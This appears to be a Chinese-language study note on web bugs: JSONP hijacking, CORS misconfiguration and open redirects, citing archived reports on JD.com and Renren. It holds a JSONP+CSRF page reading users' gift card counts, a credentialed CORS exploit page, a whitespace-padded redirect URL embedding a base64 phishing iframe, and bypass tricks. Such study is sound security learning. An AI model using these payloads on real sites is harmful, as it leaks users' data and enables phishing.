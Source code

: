 ### 0x01 jsonp劫持
##### 京东jsonp劫持泄漏敏感信息
- https://bugs.shuimugan.com/bug/view?bug_no=44210
- https://bugs.shuimugan.com/bug/view?bug_no=121266

**案例1**  
`http://dd.search.360buy.com/?uid=jambol`用户的搜索记录通过jsonp接口获取json数据，且未做验证


**案例2**
`http://giftcard.jd.com/service/getGiftCardCount.action?callback=callback` 这些接口目前还可以访问，不过已经是做了referer过滤了，返回的消息为{'msg':''} (也有其他接口返回的是jQuery3474605({'result':'G999999'})). jd既然做了referer过滤，师父之前教我的，只要能找到重定向漏洞，就可以绕过referer的验证。  
jsonp+csrf导致的信息泄漏  
```js
<meta charset="utf-8">
正在请求，请耐心等待... ...
<script type="text/javascript">
	statu=0;
	window.callback=function(e){
		if(parseInt(e['GiftCardCount'])> 0){
			alert('土豪哥哥，你有'+e['GiftCardCount']+'张优惠券~')
		}
		else{
			alert('臭屌丝，一张优惠券都木有！')
		}
		statu=1;
	}
	setTimeout(function(){ if(statu==0){
		alert('屌丝，你还木有登陆京东')
	}},10000);
</script>
<script src="http://giftcard.jd.com/service/getGiftCardCount.action?callback=callback"></script>

```

无意中看到一个接口的返回为某token，然后师父告诉我如何查找该token是否有用
- 在浏览器开发者工具中搜索`jd_risk_token_id`，找到利用它的js文件
- 文件进行了加密，将alert改为console_log()在console中返回，可以看到加密后的代码
- js格式化工具进行解密，得到js代码
- 分析代码逻辑，发现该token用于生成某个其他的变量，存储在本地storage中，在开发者工具的Application中可以查看到


这个没有referer，不过似乎没什么用... http://joycenter.jd.com//msgCenter/ajaxQueryMessage.action  


现在有一个问题：referer，不是我们可控的吗，那写poc的时候制定referer不过可以绕过referer过滤了么

##### jsonp文章阅读
**漏洞挖掘姿势**  
- 开发者工具中搜索callback、.json关键字
- 利用搜索引擎：inurl:.json 、 inurl:callback=



### 0x02 CORS
尽管CORS在设计上考虑到了安全问题,但是用户在配置时还是常出现很多错误。  
例如设置”Access-Control-Allow-Origin”的白名单时,正则写的不正确,导致预期外的域名可以跨域。  

```html
<!DOCTYPE html>
<html>
<body>
div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "https://target.com/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
</body>
</html>
```

##### CORS漏洞挖掘
https://www.youtube.com/watch?v=lg31RYYG-T4 通过`view.yahoo.com%60cdl.hack-r.cn`绕过，%60(数字0)？

### url跳转
**京东**： 
- https://bugs.shuimugan.com/bug/view?bug_no=120520 某链接虽做了过滤，但可以通过http://www.jd.com@www.baidu.com绕过
- https://bugs.shuimugan.com/bug/view?bug_no=113117 base64加密的跳转

**人人网某跳转结合钓鱼页面** 
```
http://www.renren.com/autoLogin?r=data:www.renren.com%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20;text/html;base64,PGlmcmFtZSBzcmM9Imh0dHA6Ly94NTUubWUiIGZyYW1lYm9yZGVyPSIwIiB3aWR0aD0iMTAwJSIgc2Nyb2xsaW5nPSJhdXRvIiBoZWlnaHQ9IjEwMCUiPjwvaWZyYW1lPg==
```
解码后：`<iframe src="http://x55.me" frameborder="0" width="100%" scrolling="auto" height="100%"></iframe>`,利用iframe将钓鱼页面嵌套进来。

> url跳转很多程序员是用正则匹配，当正则编写不当，如`^http?://renren.com.*` .在正则中匹配任意字符，就很简单可以通过`renren.com.example.com`绕过,或者`rrenren.com`等多尝试一下，说不定就绕过了呢
